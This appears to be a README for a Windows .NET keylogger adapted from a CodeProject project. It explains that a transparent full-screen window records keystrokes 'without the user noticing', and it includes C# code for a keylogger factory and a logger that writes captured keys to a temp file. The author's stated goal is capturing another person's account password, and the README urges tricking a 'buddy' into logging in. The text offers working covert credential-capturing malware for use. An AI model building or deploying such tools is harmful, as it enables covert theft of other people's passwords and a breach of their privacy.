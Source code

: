 # Windows .Net Key Logger #

## Overview ##

A few years ago, around 2012 I guess, I was playing around with ideas for practical jokes with the [BlueScreen screen saver](http://www.wikihow.com/Pull-a-Prank-on-Windows). To do this I'd need access to the poor unsuspecting local users account password. But how... well, key logging seemed the most practical solution. After a number of Google searches on how to build key loggers I finally landed on [.Net Hookless Key-logger from CodeProject](http://www.codeproject.com/Articles/18890/NET-Hookless-Key-logger-Advanced-Keystroke-Mining).

Bingo. Unfortunately the .Net Hookless Key-logger project, as self-described, was a bit messy. I decided to do some cleanup of classes, extracting of interfaces to make the project more IoC friendly, and added a factory to create the key logger based on desired output types. To load the key logger there is a simple Windows desktop application with a maximized window state and a transparent background. When that application starts it will immediately overlay the entire screen, all without the user noticing, and begins mining any entered keys.

## Getting Started ##

By default the Windows application is configured so the `KeyloggerFactory` creates a `Keylogger` writing all the mined keys to the console window. Great for testing how the application is running, tweaking the key mining timings, but not great for actually saving any data.

```
private void frmMain_Load(object sender, EventArgs e)
{
    try
    {
        Logger = KeyloggerFactory.GetKeylogger(OutputType.Console);
    }
    catch
    {
        Close();
    }
}
```

To begin saving the mined keys to a data file simply change the output type from 'Console' to 'File' in the `KeyloggerFactory`.

```
Logger = KeyloggerFactory.GetKeylogger(OutputType.File);
```

The `KeyloggerFactory` factory will create a new instance of the `Keylogger` setting it to use the `FileDataLogger` class.

```
public class KeyloggerFactory
{
    public static Keylogger GetKeylogger(OutputType logType)
    {
        switch (logType)
        {
            case OutputType.Console:
                return new Keylogger(new ConsoleDataLogger());

            case OutputType.File:
                return new Keylogger(new FileDataLogger());
        }

        throw new NotImplementedException($"Logging type of {logType.ToString("G")} is not supported.");
    }
}
```

By default `FileDataLogger` creates a new temporary file each time the application is run by using the [`Path` class to create a new tempoary file](https://msdn.microsoft.com/en-us/library/system.io.path.gettempfilename.aspx). The `FileDataLogger` class could easily have a path provided to it, but the temporary file seemed less likely to have file access security risks.

```
public class FileDataLogger : IDataLogger
{
    private readonly string _filePath;

    public FileDataLogger()
    {
        _filePath = Path.GetTempFileName();
    }

    public void Write(string data)
    {
        using (var stream = new FileStream(_filePath, FileMode.Append, FileAccess.Write))
        {
            using (var writer = new StreamWriter(stream))
            {
                writer.Write(data);
            }
        }
    }
}
```

At this point the key logger is able to be run. You can call your buddy over to login to something using your computer. Afterwards let the shenanigans begin!

## Important Information ##

I take zero responsibility for how this code is used. I enjoyed learning about key loggers, refactoring, but be smart. Don't be a dick, and please do no real evil.

The original author licensed the code under [The Code Project Open License (CPOL)](http://www.codeproject.com/info/cpol10.aspx) with unrestricted access to modify or distribute the code. Same goes for the modifications that I have done. Do with them as you wish.
